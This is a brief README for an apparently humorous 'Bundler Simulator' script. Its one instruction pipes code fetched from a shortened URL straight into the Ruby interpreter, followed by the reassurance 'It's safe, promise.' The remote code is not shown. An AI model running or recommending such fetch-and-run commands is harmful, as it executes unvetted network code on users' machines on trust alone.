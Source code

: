 # Bundler Simulator

This script simulates all the work Bundler does when resolving your dependencies.

To run the demo, just run this command in your shell:

```shell
ruby -e "$(curl -sL http://git.io/vB4WT)"
```

It's safe, promise.